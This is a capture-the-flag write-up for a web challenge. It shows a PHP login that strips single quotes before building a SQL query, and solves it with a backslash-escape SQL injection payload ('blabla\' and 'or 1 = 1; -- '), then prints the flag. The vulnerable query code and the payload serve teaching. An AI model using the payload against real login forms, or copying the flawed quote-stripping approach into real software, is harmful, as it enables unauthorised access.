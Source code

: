 ## bypass the world  

### The Problem:

> I Don't Care if the world is against you, but i believe that you can bypass the world  (http://35.197.254.240/bypassworld/)

### The Solution:

- Using the hint, it seems some lousy filter is replacing/deleting the single quote char ``` inserted by user. The Challenge would be escaping the single quotes written in the original code.  
```
$name = preg_replace('/\'/', '', $name);
$pass = preg_replace('/\'/', '', $pass);

$query = "SELECT * FROM users where name = '$name' and password = '$pass'"
```
- Username field `blabla\`, password field `or 1 = 1; -- `

`$query = "SELECT * FROM users where name = 'blabla\' and password = 'or 1 = 1; -- $pass'"`

- Note: the space after the double dash is essential for MySQL!
  
  > The double dash-comment style requires at least whitespace or control character (space, tab, newline, etc) after the second dash. Note that standard SQL does not require a whitespace after the second dash. MySQL uses a whitespace to avoid the problems with some SQL construct... etc.


### The flag: 
`FLAG{Y0u_Ar3_S0_C00L_T0d4y}`

### Notes:
- CWE-89.
- OWASP top 10 `A1-Injection`.



